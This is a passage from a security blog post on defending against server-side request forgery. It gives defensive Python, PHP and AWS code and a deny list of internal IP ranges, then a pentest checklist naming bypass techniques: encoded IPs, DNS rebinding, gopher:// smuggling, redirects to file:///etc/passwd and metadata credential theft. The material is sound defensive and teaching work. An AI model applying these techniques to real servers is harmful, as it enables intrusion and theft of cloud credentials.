The right defense, again, is to resolve once, validate the *resolved binary IP* against numeric ranges (RFC 1918, loopback, link-local, IPv4-mapped IPv6, `0.0.0.0/8`), and connect to the resolved IP.

---

**String-level validation cannot fix this class of bug.** The defenses in the next section share one principle: they check the destination the connection actually lands on, not the input string that came in.

## What actually works

Before getting into the list, there is one principle that matters more than the rest: **the strongest defense, and the one no other layer fully replaces, is a strict allowlist of the destinations the application is actually expected to talk to.**

If the application is supposed to fetch URLs from `api.partner.com` and `cdn.partner.com` and nothing else, say so in code and validate against that fixed list. With a real allowlist in place, none of the bypasses in the previous section apply, because none of them produce a hostname that is on the list.

SSRF bugs exist because the application accepted "any URL" when "these specific URLs" would have worked just as well. The rule is to decide what you actually need, write it down, and refuse everything else (deny by default).

In practice, real applications often DO need to fetch arbitrary user-supplied URLs (link previews, webhook deliveries, RSS aggregators, image proxies, SSO callbacks). When that is the case, you can no longer rely on a host allowlist on its own, and you have to layer the other defenses below. Even then, a denylist of destination patterns you never want the application to reach (metadata IPs, RFC 1918, loopback, link-local) gives a second layer of protection.

The five layers below stack like this, with the untrusted URL having to clear every gate before the application is allowed to open a socket:



Each layer fails closed on its own, so even if one of them is misconfigured or bypassed, the next one is still there. Implementing the following controls is what gives us a properly protected client:

1. **Resolve the hostname once, pin the IP, and connect to that pinned IP.** This is the control that closes the entire DNS rebinding family. The pattern is: resolve the hostname once with `getaddrinfo` (so we see every IPv4 *and* IPv6 record the DNS returned, not just the first), validate *every* resolved IP against the deny set, and then make the actual HTTP connection to the chosen IP directly while keeping SNI and certificate validation tied to the original hostname. There is no second DNS lookup, so the attacker has nothing to rebind. Most HTTP-client libraries don't do this for you by default, which is why most applications are still vulnerable to rebinding even when the developers thought they had it covered.

   

   The naive "set the `Host` header and dial the IP" version is enough for plain HTTP, but it fails for HTTPS, because the TLS layer would then validate the server certificate against the IP instead of the original hostname. Doing this correctly requires a custom HTTP adapter that does three things at once:

   - routes the TCP connection to the pinned IP,
   - keeps the URL (and therefore SNI and certificate validation) tied to the original hostname,
   - and refuses to follow redirects automatically, otherwise a `302 -> http://169.254.169.254/` would be chased by an unpinned default adapter and bypass every check above. Redirects are handled one hop at a time by `safe_get` in step 3, which re-resolves and re-validates every destination.

   Different HTTP-client ecosystems implement this slightly differently (in Python it is a custom `HTTPAdapter` over `urllib3`, in Go a custom `Dialer` on the `Transport`, in Node a custom `Agent`), but the rule is the same everywhere: one DNS resolution, every returned IP validated, the connection dialed to the pinned IP, and SNI / cert validation kept on the original hostname. Call the resulting helper `fetch_pinned(url)`, which is what step 3 will wrap with redirect handling.

2. **Validate the resolved IP, not the hostname, against a complete deny set.** Once you have the resolved IP from step 1, check it against the full set of ranges you never want the application to reach: RFC 1918 (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), loopback (`127.0.0.0/8`), link-local (`169.254.0.0/16`, which is where cloud metadata lives), `0.0.0.0/8`, IPv6 loopback (`::1`), IPv6 ULA (`fc00::/7`), and IPv4-mapped IPv6 (`::ffff:0:0/96`) because that last range is how every IP-encoding bypass from the previous section eventually round-trips back to the address you thought you were blocking. What you actually want to compare against is the IP that the OS resolver produced, not the string the user sent in. The resolver collapses encoded forms like decimal `2130706433`, octal `0177.0.0.1`, hex `0x7f000001` and the short form `127.1` all to the canonical `127.0.0.1`, so by the time you check it against the deny set you are looking at the same address the kernel is about to dial.

   ```python
   import ipaddress

   BLOCKED = [
       ipaddress.ip_network(n) for n in (
           "10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16",   # RFC 1918
           "127.0.0.0/8",                                      # loopback
           "169.254.0.0/16",                                   # link-local + IMDS
           "0.0.0.0/8",                                        # this host
           "::1/128", "fc00::/7", "::ffff:0:0/96",             # IPv6 loopback / ULA / mapped
       )
   ]

   def ip_is_allowed(raw_ip):
       # raw_ip is one of the address strings returned by getaddrinfo()
       # (canonical IPv4 dotted-quad or IPv6 form, optionally with %scope on link-local)
       ip = ipaddress.ip_address(raw_ip.split("%")[0])
       return not any(ip in net for net in BLOCKED)
   ```

   The function expects `raw_ip` to be a canonical IP string that came out of `socket.getaddrinfo()` upstream (which goes through the OS resolver and returns one entry per A and AAAA record). The resolver collapses encoded user input like `"2130706433"`, `"0x7f000001"`, or `"127.1"` into the canonical dotted-quad before you ever see it, and `ipaddress.ip_address()` parses the canonical form into a comparable object and lets you check it against the deny networks. For IPv4-mapped IPv6 (`::ffff:169.254.169.254`), `ipaddress.ip_address()` returns an IPv6 address that falls into the `::ffff:0:0/96` deny network above, so the check still triggers correctly.

3. **Allowlist the scheme and refuse to follow cross-scheme redirects.** Only permit `http` and `https`. This one decision restricts the escalation ceiling from the table earlier in the post: with a strict scheme allowlist, an SSRF cannot become a `gopher://`-to-Redis RCE, because the scheme that would deliver the payload is simply not available to the attacker. Two related controls go with this: do not follow redirects across schemes (an `http://` request that 302s to `gopher://` should be refused, not chased), and re-validate the destination after every redirect, because otherwise a permitted hostname can redirect you straight into an internal IP and your validation only ran on the first hop.

   ```python
   ALLOWED_SCHEMES = {"http", "https"}

   def safe_get(url, max_redirects=3):
       for _ in range(max_redirects + 1):
           parsed = urlparse(url)
           if parsed.scheme not in ALLOWED_SCHEMES:
               raise ValueError(f"scheme not allowed: {parsed.scheme}")
           resp = fetch_pinned(url)             # from step 1, re-runs IP validation
           if not (300 <= resp.status_code < 400):
               return resp
           url = resp.headers["Location"]       # loop -> re-checked on the next iteration
       raise ValueError("too many redirects")
   ```

   Every hop goes through the same scheme check and the same pinned-IP fetch, so a redirect to a different scheme like `gopher://` is rejected on the scheme check, and a redirect to an internal hostname is rejected by the IP check from step 2.

4. **Lock down the fetcher itself.** Whichever HTTP client the application uses, treat its configuration as something that matters for security. With libcurl, explicitly set `CURLOPT_PROTOCOLS_STR` to `"HTTP,HTTPS"` (or use the long-form `CURLOPT_PROTOCOLS` constants) rather than leaving it at the default "all". In PHP, disable the dangerous stream wrappers you don't need at the runtime level (`allow_url_fopen`, the various `php://` wrappers, `phar://`) so the language itself refuses to interpret them. In Java, do not bolt on additional `URLStreamHandler` packages just to get exotic schemes back. These are just examples of the settings available. What this layer gives you is a client that refuses to execute a dangerous scheme even if a string somehow slipped past the application checks in step 3.

   ```php
   // PHP + libcurl: restrict protocols at the client level
   $ch = curl_init($url);
   curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "HTTP,HTTPS");
   curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS_STR, "HTTP,HTTPS");  // also applies on redirects
   curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);              // re-validate yourself
   ```

   ```ini
   ; php.ini: cut the dangerous wrappers off at the runtime
   allow_url_fopen = Off
   allow_url_include = Off
   ; phar:// stays usable for legitimate archives but should never accept attacker URLs
   ```

   Step 3 sits in the application code and refuses dangerous schemes before the request goes out. Step 4 configures the engine underneath so it cannot execute those schemes even when a string somehow makes it past step 3.

5. **Defense in depth at the infrastructure layer.** This is the last layer of defense, and the one that limits how bad a successful exploit can be when the application's own checks fail. Enforce **IMDSv2** on every cloud instance, with the `http-put-response-hop-limit` set to `1` so the metadata token cannot be relayed through a sidecar or container layer. Place the URL-fetching component in its own **network segment with no route to internal services or to the metadata IP**. This means a successful SSRF reaches nothing useful even if all the application-level checks were bypassed. Apply **egress filtering** so the component can only reach the destinations on its allowlist at the network level, independent of what the application thinks it is doing.

   ```bash
   # AWS: force IMDSv2 with hop-limit 1 on an existing instance
   aws ec2 modify-instance-metadata-options --instance-id i-0123456789abcdef0 --http-tokens required --http-put-response-hop-limit 1 --http-endpoint enabled
   ```

   At the network layer, an egress NetworkPolicy in Kubernetes (or a security-group equivalent on raw VMs) that allows the fetcher to reach only the partner CIDRs means that even when the application-level checks are bypassed, the request still cannot reach anything sensitive on the internal network.

Here is what does *not* work on its own, even though most write-ups treat these controls as enough:

- **A denylist of hostnames** (the classic "block anything containing `metadata` or `localhost`") falls apart against encoding tricks, wildcard DNS like `nip.io`, and any IP literal you forgot to add.
- **A regex on the URL string** falls apart against parser confusion as soon as two parsers in your stack disagree.
- **A single check before the request, with no IP pinning** falls apart against DNS rebinding.
- **A domain allowlist on its own** is not enough, because the hostname can be on the list while the IP it resolves to at request time is not, and the validator can see the allowed host while the requester sees a different one.

Each of these can still be useful as one layer of defense, but the property you actually need to enforce is about the resolved IP and the connection it produces, not the actual string that was sent in or the hostname inside it.

A quick way to check whether your code is correct is to write down the IP your HTTP client is about to dial and then ask three things. 
- Did that IP come out of the same resolution your validation ran against, or did the application resolve twice? 
- Did your validation run against an IP, or against a hostname? 
- Did your validation and your client both parse the URL the same way? 
If any of those three answers is wrong, the corresponding bug class is present.

## How to test this as pentesters

A short checklist for when you find a server-side fetch in scope:

- **Fingerprint the fetcher first.** Language, library, version where you can get it (error messages, response headers, timing). The scheme ceiling falls out of this immediately, and so does whether the client follows cross-scheme redirects. The same SSRF in a Go service and a PHP-via-curl service have completely different impact.
- **Out-of-band.** Point the fetcher at a host you control and watch for DNS and HTTP callbacks. A blind SSRF that produces a reliable connect-vs-refused signal effectively gives you an internal port scanner.
- **Try the metadata endpoint.** If you get IMDSv1 behaviour, go straight for IAM credentials. If you hit IMDSv2 (the PUT-then-header dance) or the Azure/GCP custom-header requirement, note it and check whether the surrounding application gives you any header control elsewhere.
- **Walk the three families in order.** Parser confusion (`@`, fragments, backslashes, the PortSwigger cheat sheet), DNS rebinding (a low-TTL hostname you control, `https://lock.cmpxchg8b.com/rebinder.html` for quick proofs), then IP encodings (decimal, octal, hex, IPv6-mapped, wildcard DNS like `nip.io`).
- **Is `gopher://` (or any raw-TCP scheme) reachable?** That is the path to unauthenticated internal services.
- **Cross-scheme redirects.** This is the one most testers forget to try, including myself. If the attacker-controlled endpoint returns a 302 to `gopher://internal/...` or `file:///etc/passwd` and the client follows it, the scheme ceiling you measured in step one does not actually hold, because the client will reach whatever the redirect points to.

## References and further reading

**Papers:**

- Orange Tsai, *A New Era of SSRF: Exploiting URL Parsers in Trending Programming Languages* (Black Hat USA 2017). [Slides (PDF)](https://blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- Jochen Topf, *The HTML Form Protocol Attack* (2001). [PDF](https://www.jochentopf.com/hfpa/hfpa.pdf)
- Brinkmann et al., *ALPACA: Application Layer Protocol Confusion* (USENIX Security 2021). [PDF](https://alpaca-attack.com/ALPACA.pdf)
- Noam Moshe, Sharon Brizinov, Raul Onitza-Klugman, Kirill Efimov, *Exploiting URL Parsing Confusion* (Claroty Team82 + Snyk, 2022). [Paper landing page](https://claroty.com/team82/research/exploiting-url-parsing-confusion)

**Primary sources:**

- [WHATWG Fetch Standard, port blocking](https://fetch.spec.whatwg.org/#port-blocking)
- [curl supported protocols](https://everything.curl.dev/protocols/protocols.html)
- Snyk Research, *URL confusion vulnerabilities in the wild: Exploring parser inconsistencies* (Jan 2022). [Blog](https://snyk.io/blog/url-confusion-vulnerabilities/)

**Practical:**

- [PortSwigger Web Security Academy, SSRF labs](https://portswigger.net/web-security/ssrf).
- [OWASP Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).
- [Gopherus](https://github.com/tarunkant/Gopherus), payload generation for gopher-based smuggling.
- [PortSwigger URL validation bypass cheat sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet) for ready-made parser-confusion payloads.
- [`lock.cmpxchg8b.com/rebinder.html`](https://lock.cmpxchg8b.com/rebinder.html) and the `rbndr.us` service for quick DNS-rebinding proofs of concept.
- [`mustaine`](https://github.com/dglynos/mustaine) for the slow-read SSRF-to-DoS technique.

**Go deeper:**

- Assetnote's [*Blind SSRF Chains*](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/) is the best per-service exploitation reference if you find a blind SSRF and want a payload tailored to whatever ends up on the other side.
- [`IPFuscator`](https://github.com/vysecurity/IPFuscator) generates the alternative IP representations from the IP-encoding section without you having to do the arithmetic by hand.
- [`r3dir`](https://github.com/Horlad/r3dir) is a hosted HTTP redirection service that helps you build the cross-scheme and cross-host redirect chains used to bypass URL filters.

**Standards and weaknesses:**

- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html).
- [CWE-650: Trusting HTTP Permission Methods on the Server Side](https://cwe.mitre.org/data/definitions/650.html) (HTTP Verb Tampering).
- [CWE-367: Time-of-check Time-of-use Race Condition](https://cwe.mitre.org/data/definitions/367.html) (the class DNS rebinding belongs to).
